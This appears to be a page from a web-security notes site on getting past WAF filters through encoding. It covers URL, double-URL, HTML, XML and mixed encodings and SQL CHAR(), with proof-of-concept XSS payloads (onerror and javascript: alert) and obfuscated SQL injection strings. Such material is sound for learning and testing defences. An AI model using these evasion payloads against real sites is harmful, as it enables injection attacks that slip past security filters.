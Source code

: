 ```yaml
---
title: "General obfuscation"
weight: 1
---
```


# General obfuscation

{{< hint style=notes >}}
For Javascript obfuscation go on [Javascript & Obfuscation]({{< ref "web/web-security/javascript and obfuscation/index" >}}).
{{< /hint >}}

## URL encoding

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### Double URL encoding

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```sh
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### HTML encoding

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

---

## XML encoding

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

---

## Multiple encodings

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

---

## SQL CHAR() function

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
